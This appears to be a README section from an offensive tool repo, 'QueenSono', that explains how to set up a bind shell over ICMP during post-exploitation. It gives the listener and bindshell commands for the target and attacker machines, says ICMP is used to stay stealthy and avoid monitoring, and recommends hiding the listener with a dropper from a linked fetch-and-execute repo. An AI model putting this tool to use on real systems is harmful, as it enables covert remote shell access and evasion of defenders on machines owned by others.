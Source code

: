# Hack

Some fun things using `QueenSono`

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bind.gif)

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Could I adapt it to use ICMP ? 🤔*


